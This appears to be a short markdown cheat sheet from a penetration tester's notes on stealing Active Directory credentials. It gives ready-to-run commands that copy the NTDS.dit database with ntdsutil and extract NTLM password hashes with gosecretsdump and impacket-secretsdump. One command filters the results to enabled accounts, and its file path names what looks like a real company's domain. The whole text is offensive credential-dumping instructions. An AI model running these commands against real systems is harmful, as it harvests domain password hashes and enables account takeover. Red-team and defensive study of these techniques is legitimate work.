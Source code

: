 # NTDS.dit Dump
## [ntdsutil](https://github.com/clr2of8/DPAT)
```sh
ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q
```

# NTDS.dit Extract
## [gosecretsdump](https://github.com/C-Sto/gosecretsdump)
```sh
gosecretsdump -enabled -noprint  -ntds [ntds.dit] -system [SYSTEM] -out [ntlm.domain.txt]
```

## [secretsdump](/Tools/impacket.md)
```sh
impacket-secretsdump -user-status -system ./corp.storebrand.no/registry/SYSTEM -ntds ./corp.storebrand.no/Active\ Directory/ntds.dit LOCAL | grep '(status=Enabled)' | sed 's/(status\=Enabled)//'
```
